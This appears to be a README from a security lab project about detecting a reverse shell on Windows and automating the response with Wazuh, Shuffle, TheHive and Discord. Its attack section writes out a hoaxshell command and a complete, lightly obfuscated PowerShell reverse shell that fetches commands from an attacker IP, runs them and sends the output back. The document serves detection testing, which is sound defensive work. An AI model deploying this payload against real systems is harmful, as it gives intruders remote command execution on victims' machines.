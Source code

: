 # Reverse Shell Execution

## Objective
Detect a suspicious external connection that opens a reverse shell from a Windows system.

## Course of attack
Attacker use hoaxshell to generate payload in Kali. Then this payload has to be included in to the PowerShell script. After its execution, attacker can get an access to command line of Windows.  
**Tool**: hoaxshell  
**Command**: `python3 hoaxshell.py -s 192.168.69.200 -r -H "Authorization"`  
**Tool**: PowerShell  
**Scrypt**: 
`$command = @'
$s='192.168.69.200:8080';$i='197e9fb0-2a86272c-0e33a75c';$p='http://';$v=Invoke-WebRequest -USEBaSicparsing -Uri $p$s/197e9fb0 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-Web''Request -USEBaSicparsing -Uri $p$s/2a86272c -Headers @{"Authorization"=$i}).Content;if ($c -ne 'Hello') {$r=ie''x $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -Inpu''tObject $r;$t=Invoke-WebR''equest -Uri $p$s/0e33a75c -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
'@
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
powershell.exe -encodedCommand $encodedCommand
`  

## Response
- Wazuh Agent detected login errors in Windows event logs by Sysmon and sent a custom rule “Multiple network connection initiated by PowerShell” to Wazuh.
- Wazuh uses configured Webhook to send alert to the Shuffle.
- After receiving a notification in Shuffle, the configured response scenario is automatically launched:
  - Creating alert in TheHive
  - Adding IP of attacker as observable to allert
  - Creating case with observable in TheHive
  - Sending notification to Discord Bot
- In TheHive, IP can be sent to check it with AbuseIPDB or VirusTotal


## Shuffle Workflow
![](../images/shuffle-workflow-shell.png)
